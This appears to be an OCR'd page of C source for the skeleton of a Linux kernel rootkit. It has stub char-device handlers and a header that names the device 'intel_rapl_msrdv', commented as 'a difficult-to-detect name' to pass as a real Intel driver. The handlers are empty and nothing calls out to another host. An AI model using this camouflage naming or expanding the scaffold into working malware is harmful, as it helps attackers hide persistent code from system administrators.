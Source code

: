 ```
#include &lt;linux/module.h&gt;
#include &lt;linux/kernel.h&gt;
#include &lt;linux/init.h&gt;
#include &lt;linux/fs.h&gt;
#include &lt;linux/device.h&gt;
#include "rootkit.h"

static int a3_rootkit_open(struct inode * __inode, struct file * __file)
`{`
    return 0;
`}`

static ssize_t a3_rootkit_read(struct file * __file, char __user * user_buf, size_t size, loff_t * __loff)
`{`
    return 0;
`}`

static ssize_t a3_rootkit_write(struct file * __file, const char __user * user_buf, size_t size, loff_t * __loff)
`{`
    return 0;
`}`

static int a3_rootkit_release(struct inode * __inode, struct file * __file)
`{`
    printk(KERN_INFO "get info");
    return 0;
`}`

static long a3_rootkit_ioctl(struct file * __file, unsigned int cmd, unsigned long param)
`{`
    return 0;
`}`
```

> rootkit.h

```
#include &lt;linux/module.h&gt;
#include &lt;linux/kernel.h&gt;
#include &lt;linux/init.h&gt;
#include &lt;linux/fs.h&gt;
#include &lt;linux/device.h&gt;

// a difficult-to-detect name
#define DEVICE_NAME "intel_rapl_msrdv"
#define CLASS_NAME "intel_rapl_msrmd"
#define DEVICE_PATH "/dev/intel_rapl_msrdv"

static int major_num;
static struct class * module_class = NULL;
static struct device * module_device = NULL;
static struct file * __file = NULL;
struct inode * __inode = NULL;

static int __init rootkit_init(void);
static void __exit rootkit_exit(void);

static int a3_rootkit_open(struct inode *, struct file *);
static ssize_t a3_rootkit_read(struct file *, char __user *, size_t, loff_t *);
static ssize_t a3_rootkit_write(struct file *, const char __user *, size_t, loff_t *);
static int a3_rootkit_release(struct inode *, struct file *);
static long a3_rootkit_ioctl(struct file *, unsigned int, unsigned long);
```